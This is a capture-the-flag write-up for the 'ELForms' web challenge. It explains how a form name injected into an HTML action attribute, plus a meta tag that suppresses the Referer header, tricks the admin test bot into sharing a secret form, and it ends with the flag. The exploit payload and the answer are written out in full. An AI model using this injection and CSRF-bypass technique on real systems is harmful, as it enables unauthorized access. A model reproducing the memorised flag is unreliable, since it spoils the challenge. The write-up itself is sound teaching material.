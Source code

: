 # K.U.N.A.L Consulting

- Published: 12/24/2024 (#24/25 in event)
- Category: Web exploitation
- Points: 130
- Author: GodderE2D

“It was snowing this morning,” Agent Aspen said.

“I know it’s your last day—but we have something for you to do. It won’t take long, I promise.”

We’re anticipating that K.U.N.A.L himself is coming after our systems. We have this internal software that another
intern created a few years ago; we’ve been using it ever since they pitched it to Santa. Santa was impressed, but after
taking a closer look it doesn’t look very secure at all.

[https://elforms.csd.lol/](https://elforms.csd.lol/) (source code is attached)

---

_**You are only allowed to test in the scope `https://*elforms.csd.lol/*`.** Blind brute-force request sending (e.g.,
using tools like DirBuster) can trigger Cloudflare rate limits. Do not attempt to bypass Cloudflare limits. Therefore,
if you wish to brute-force, please limit your wordlists or attack scope._

## Attachments

- [Source code](https://files.vipin.xyz/api/public/dl/NcRnfu5V/Day%2024%20-%20ELForms/elforms.tar.gz)

## Hints

**Hint 1:**  
User input should never be trusted, especially not for authentication! As always, check out your browser’s DevTools (particularly the Elements, Sources, and Network tabs).

**Hint 2:**  
JSON is all powerful; there’s more to it than strings. There’s also an “employee login” page. Humans don’t always have the best memory and might re-use stuff.

## Write-up

<details>
<summary>Reveal write-up</summary>

First, in `/init-db.js`, we can see where the flag will be stored:

```js
db.prepare(
  `insert into user (id, username, password) values (
    'f02536d1-a338-4d15-bcaa-c9ffbd2659a8',
    'admin',
    '$2y$10$c2VPz9tvLkA.ApNmD.W6X.JTcRYY2/2nJM5cFDOXYAl5rS1XVjcL6'
  )`
).run();

db.prepare(
  `insert into form (id, author_id, name, description, questions, meta, public) values (
    '7e27fe8a-447e-4c8f-bb37-133aae88f07e',
    'f02536d1-a338-4d15-bcaa-c9ffbd2659a8',
    ?,
    'top secret form',
    '[{"name":"foo","defaultValue":"bar"},{"name":"foo","defaultValue":"bar"}]',
    '{"og:title":"...","og:description":"top secret form"}',
    0
  )`
).run(process.env.FLAG || "csd{test_flag}");
```

The admin user creates a form with the flag as the title, but we don't have access to this form.

Upon signing up, we can attempt to create a form. Note that the homepage mentions "testing" a form submission, which may
hint that this is a cross-site scripting (XSS) challenge.

Let's first create a test form by inputting random values into `/forms/create`:

![Form submit page](/blog-assets/elforms-advent-of-ctf-2024/form-submit.png)

We can see that the default values we inputted are indeed pre-filled into the fields. Submitting the form sends a POST
request to the same URL, simple HTML forms. No JavaScript is involved here.

Note that this is also a different domain than our original URL: `form-elforms.csd.lol` rather than `elforms.csd.lol`.

Now, let's try going back to `/forms` and pressing the Test button. We get a message that an elf will go "test" our
form, but there are no updates beyond that.

Taking a look at the source code, we can see that the code to test the form in `/main/server.js` looks pretty normal:

```js
await page.setCookie({
  name: "token",
  value: token,
  domain: process.env.MAIN_BASE_URL.replace("http://", "").replace("https://", ""),
  path: "/",
  expires: Date.now() + 30 * 24 * 60 * 60 * 1000,
  httpOnly: true,
  secure: false,
});

await page.goto(url);

await setTimeout(1000);

await page.locator("#submit").click();

await setTimeout(1000);

await page.close();
```

It sets a `token` cookie with `elforms.csd.lol` (from the environment variable), waits a second, looks for a button on
the page with the ID `submit`, and clicks on it. It then waits another second and closes the page.

```js
cluster.queue({
  url: `${process.env.FORM_BASE_URL}/${encodeURIComponent(form.name)}_${form.id}`,
  token: jwt.sign({ id: tester.id }, process.env.JWT_SECRET, {
    expiresIn: "30d",
  }),
});
```

The `token` cookie is a valid and signed [JSON Web Token (JWT)](https://en.wikipedia.org/wiki/JSON_Web_Token) of the
tester, who by default is the admin. However, the cookie is stored on the `elforms.csd.lol` domain, which is not the
same as the form submission domain `form-elforms.csd.lol`. More on this later.

Note that we can only test our own forms:

```js
if (form.author_id !== user.id) return res.status(401).send("Unauthorized");
```

It checks this by getting the username from our JWT cookie:

```js
function getUser(req) {
  if (!req.cookies.token) return;

  try {
    const { id } = jwt.verify(req.cookies.token, process.env.JWT_SECRET);
    if (typeof id !== "string") return false;

    return db.prepare("SELECT id, username FROM user WHERE id = ?").get(id);
  } catch (error) {
    console.error(error);
    return false;
  }
}
```

There is something else that stands out—it adds the tester to the `shared_ids` of the form.

```js
const shared_ids = form.shared_ids ? JSON.parse(form.shared_ids) : [];
shared_ids.push(tester_id);
// ...
db.prepare("UPDATE form SET shared_ids = ? WHERE id = ?").run(JSON.stringify([...new Set(shared_ids)]), id);
```

And when checking which forms a user can see and edit, the server checks if the user is in the `shared_ids` of the form:

```js
const forms = db.prepare("SELECT * FROM form WHERE author_id = ? OR shared_ids LIKE ?").all(user.id, `%${user.id}%`);
```

Hm, but you shouldn't need to _edit_ the form to submit a form. This seems weird, there could be something more to this.

We can't just edit `tester_id` to be our own ID, as that wouldn't be our own logged in ID (according to the cookie).
But, we can use the _tester_ (who has the admin cookie) to test the admin form which has the flag as the name.

So, we need to specify our own user ID as the `tester_id` to add it to the `shared_ids` list and specify `id` to be the
top secret form ID from `/init-db.js`.

So, how can we utilize the tester's cookie? We need to either extract it, or have it run a request while it's testing to
have the cookie attached to the request.

We can't extract the cookie—recall that the cookie is
[HTTP-only](https://developer.mozilla.org/en-US/docs/Web/Security/Practical_implementation_guides/Cookies#httponly). It
must be attached to a request.

Well, it won't be attached to just any request we make. It has to be on that domain, which is `elforms.csd.lol`.

Let's start going through the source code for the form submission page.

In `/form/views/pages/form.ejs`, we can see that the form name and ID are concatenated together with an underscore in
the action attribute:

```html
<form action="<%= form.name %>_<%= form.id %>" method="post" id="form" class="mb-2"></form>
```

In HTML, the [`action` attribute](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/form#action)
allows us to change the URL where the form is submitted.

Well, we have control over the name of the form. Plus, the `/` is not included in the original code, so we can specify
any URL from any domain we want! (But the resulting URL will have the underscore and form ID at the end.)

That's not a problem, though. We can simply append a URL fragment and it won't be included in the network request at
all.

So, if we have our form name be `http://elforms.csd.lol/forms/test#`, it will result in something like
`action="http://elforms.csd.lol/forms/test#_51fbbcda-8a1d-4ea7-9f03-fc8498d37657"`.

That will resolve to just `http://elforms.csd.lol/forms/test` in the network request. Conveniently, `POST /forms/test`
also allows `application/x-www-form-urlencoded` for the body. So, we should just be able to set the field names and the
default field values to the values we want.

Let's craft a form for our tester to use:

```json
// POST /forms/create
{
  "name": "https://elforms.csd.lol/forms/test#",
  "description": "...",
  "questions": [
    { "name": "id", "defaultValue": "7e27fe8a-447e-4c8f-bb37-133aae88f07e" },
    {
      "name": "tester_id",
      "defaultValue": "07cf1609-5c89-4df2-998d-df04102cb1b9"
    }
  ]
}
```

Recall that `7e27fe8a-447e-4c8f-bb37-133aae88f07e` is the ID of the top secret form we want to make public to us.

We can also get our account ID for `tester_id` by decoding the JWT:

```bash
$ echo 'eyJpZCI6IjA3Y2YxNjA5LTVjODktNGRmMi05OThkLWRmMDQxMDJjYjFiOSIsImlhdCI6MTc0ODEyMzc1MCwiZXhwIjoxNzUwNzE1NzUwfQ' | base64 --decode | jq
base64: invalid input
{
  "id": "07cf1609-5c89-4df2-998d-df04102cb1b9",
  "iat": 1748123750,
  "exp": 1750715750
}
```

However, a problem now arises. We are blocked by the `csrf()` middleware!

```js
function csrf(req, res, next) {
  if (req.headers.referer && !req.headers.referer.startsWith(process.env.MAIN_BASE_URL)) {
    return res.status(403).send("Forbidden");
  }

  next();
}
```

However, this is a
[Referer-based CSRF check](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses) and can be
bypassed here by not having a `Referer` header at all.

Well, conveniently, we can also custom-set our own meta tags, and one way to prevent the site from sending the Referer
header in requests is by using `<meta name="referrer" content="none">`:

```ejs
<% Object.entries(form.meta).forEach(([name, content]) => { %>
<meta name="<%= name %>" content="<%= content %>" />
<% }); %>
```

So, our final payload to `POST /forms/create` is:

```json
// POST /forms/create
{
  "name": "https://elforms.csd.lol/forms/test#",
  "description": "...",
  "questions": [
    { "name": "id", "defaultValue": "7e27fe8a-447e-4c8f-bb37-133aae88f07e" },
    {
      "name": "tester_id",
      "defaultValue": "07cf1609-5c89-4df2-998d-df04102cb1b9"
    }
  ],
  "meta": {
    "referrer": "none"
  }
}
```

Please note that the URL in `name` is `https`, not `http`. Chromium will warn you if you send a form request in an
insecure HTTP request.

After creating this form, let's go back to `/forms` and press the Test button. After a few seconds, let's navigate back
to `/forms`:

![Forms with flag](/blog-assets/elforms-advent-of-ctf-2024/forms-with-flag.png)

Looks like we've successfully added our user ID to the top secret form's `shared_ids`! Merry Christmas Eve!

Flag: `csd{wh4t_4N_3v3ntFuL_cHR15TM45_3v3}`

</details>

Write-up by GodderE2D
